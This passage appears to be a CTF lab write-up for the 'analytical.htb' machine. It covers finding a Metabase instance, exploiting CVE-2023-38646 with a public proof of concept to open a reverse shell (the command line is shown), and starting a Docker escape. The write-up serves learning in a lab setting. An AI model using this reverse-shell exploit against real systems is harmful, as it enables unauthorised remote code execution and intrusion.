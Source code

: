 ## Web

Let's check the web server.

![web](1.png)

Nothing interesting is this page, however the `login` tab seems to go to the subdomain `data.analytical.htb`, let's add it to our hosts file.

![data](2.png)

I tried some default credentials but no luck with that.

I looked if there was any cookies and found the following:

![cookie](3.png)

The cookie name is `metabase.DEVISE`. I searched for that on google and found it's some business intelligence tool.

Adding the word `exploit` to the search reveals an unauthenticated command execution vulnerability [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

## **Foothold**

I found the following [POC](https://github.com/securezeron/CVE-2023-38646) and used it to get a reverse shell.

We setup a listener and run the exploit.

```bash
python CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lhost 10.10.16.4 --lport 9001
```

![revshell](4.png)

## **Privilege Escalation**

### Docker Escape

As we can see from the hostname `ccb846925922`, this is a docker container.

We can also confirm that by listing the file system:

```terminal
ccb846925922:/$ ls -la /
ls -la /
total 92
drwxr-xr-x    1 root     root          4096 Dec 30 10:03 .
drwxr-xr-x    1 root     root          4096 Dec 30 10:03 ..
-rwxr-xr-x    1 root     root             0 Dec 30 10:03 .dockerenv
```
